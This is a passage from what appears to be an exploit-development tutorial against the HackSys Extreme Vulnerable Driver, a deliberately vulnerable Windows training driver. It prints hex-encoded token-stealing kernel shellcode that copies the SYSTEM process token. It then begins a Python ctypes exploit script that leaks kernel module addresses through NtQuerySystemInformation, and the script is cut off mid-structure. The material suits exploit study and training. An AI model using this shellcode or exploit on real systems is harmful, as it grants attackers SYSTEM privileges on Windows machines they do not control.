 Wow, now this is perfect. All we're doing now is just adding a register to a register. There's not really any way this can get us in trouble. And since our shellcode runs directly after this first operation, if we had to, we could change the register back to its original value with no problem!

This instruction `es add bh,bh` doesn't really cause problems either. You can read [here](https://stackoverflow.com/questions/19739303/what-does-mean-in-x86) about how data segment registers work on 64 bit operating systems. 

So this is perfect. We can update our shellcode now to be the following:
```
"\x90\x90\xff\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00"
"\x48\x8B\x40\x70\x48\x89\xC1\x49\x89\xCB\x49\x83\xE3\x07\xBA\x04"
"\x00\x00\x00\x48\x8B\x80\x88\x01\x00\x00\x48\x2D\x88\x01\x00\x00"
"\x48\x39\x90\x80\x01\x00\x00\x75\xEA\x48\x8B\x90\x08\x02\x00\x00"
"\x48\x83\xE2\xF0\x4C\x09\xDA\x48\x89\x91\x08\x02\x00\x00\x5A\x41"
"\x5B\x59\x58\xc3"
```

If we update our script with that shellcode, our final exploit code becomes:
```python
import ctypes, sys, struct
from ctypes import *
from ctypes.wintypes import *
from subprocess import *

kernel32 = windll.kernel32
ntdll = windll.ntdll

# HEVD!TriggerArbitraryOverwrite instructions: 
# mov     r11,qword ptr [rbx]
# mov     qword ptr [rdi],r11

def base():
    
    print("[*] Calling NtQuerySystemInformation w/SystemModuleInformation")
    sys_info = create_string_buffer(0)
    sys_info_len = c_ulong(0)

    ntdll.NtQuerySystemInformation(
        0xb,
        sys_info,
        len(sys_info),
        addressof(sys_info_len)
    )

    sys_info = create_string_buffer(sys_info_len.value)

    result = ntdll.NtQuerySystemInformation(
        0xb,
        sys_info,
        len(sys_info),
        addressof(sys_info_len)
    )

    if result == 0x0:
        print("[*] Success, allocated {}-byte result buffer".format(str(len(sys_info))))

    else:
        print("[!] NtQuerySystemInformation failed with NTSTATUS: {}".format(hex(result)))

    class SYSTEM_MODULE_INFORMATION(Structure):
        _fields_ = [("Reserved", c_void_p * 2),
                    ("ImageBase", c_void_p),
                    ("ImageSize", c_long),
                    ("Flags", c_ulong),
```